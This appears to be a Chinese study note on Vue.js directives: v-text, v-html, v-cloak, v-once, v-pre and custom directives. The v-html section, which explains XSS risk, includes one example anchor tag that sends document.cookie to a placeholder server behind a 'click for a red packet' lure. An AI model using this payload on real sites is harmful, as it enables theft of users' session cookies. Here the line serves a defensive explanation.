

# v-text

向标签内插入纯文本（`innerText`），会替换innerText的所有内容

```js
    <div v-text="name"></div>
```

```js
    <div >{{name}}</div>
```

# v-html

向标签插入文本（`innerHtml`），支持标签的解析

## XSS攻击



Cookies Editor

敏感数据需要勾选HttpOnly

```js
<a href=javascript:location.href='服务器地址?'+document.cookie>点我，领红包</a>
```

cookie信息将传入该服务器地址

因此不建议使用v-html

# v-cloak

v-cloak属性在Vue介入时，v-cloak会被删除

```js
<h2 v-cloak>会被删除</h2>
```

删除后：

```js
<h2 >会被删除</h2>
```

```js
[v-clock]{
    display:none
}
```

搭配CSS样式可以实现当Vue响应完成后再渲染，实现**未解析的标签**不会被渲染在页面中

# v-once

v-once修饰的标签只会读取一次，

```js
<p v-once>{{n}}</p>
```

# v-pre

跳过v-pre所在标签的解析过程

可以使用他跳过没有使用Vue解析（插值语法、指令语法）的标签，会加快编译

```js
<p v-pre>静态标签</p>
```

# 自定义指令

我们使用的vue指令都是Vue封装好的DOM操作，我们也可以自定义指令

## directives

在directives配置项内可以自定义指令，定义一个指令big：

```js
directives:{
    big(element,binding){
        element.innerText=binding.value*10
    }
}
```

- element：当前DOM元素
- binding：绑定的元素（v-指令="元素"）

```js
<p v-big="n"> </p>
```

指令所在的模板被修改时，指令将重新解析